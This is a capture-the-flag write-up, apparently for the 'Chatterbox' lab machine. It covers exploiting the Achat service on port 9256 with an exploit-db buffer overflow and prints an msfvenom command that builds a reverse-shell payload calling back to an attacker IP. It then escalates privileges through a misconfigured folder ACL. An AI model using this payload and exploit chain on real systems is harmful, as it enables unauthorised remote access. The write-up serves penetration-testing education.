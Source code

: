 # Chatterbox

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>

Port 9256 was a rather unusual port to be open.

### Achat

Researching a bit about this port led me to this post:

{% embed url="https://www.speedguide.net/port.php?port=9256" %}

So this port had a vulnerable software on it that is vulnerable to a Remote BOF exploit. We can use an exploit from exploit-db for this:

{% embed url="https://www.exploit-db.com/exploits/36025" %}

Again, we would need to replace the shellcode with a reverse shell one. We can do so like this:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```
{% endcode %}

Then, we can run the script and a shell would pop on our listener port.

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Directory Misconfig

When I ran WinPEASx64 on this machine, there was a lot of indication that we had AllAccess to the administrator's desktop.&#x20;

<figure><img src="../../../.gitbook/assets/image (42) (5).png" alt=""><figcaption></figcaption></figure>

However, we cannot read the root flag for some reason.

<figure><img src="../../../.gitbook/assets/image (7) (5).png" alt=""><figcaption></figcaption></figure>

We can check the permissions using `icacls`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

So we the user have Full Control over the Desktop (that's what (F) means), but the flag has been configured like so. To cirumvent this, we can grant ourselves the permission to read the files.

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can read the root flag.
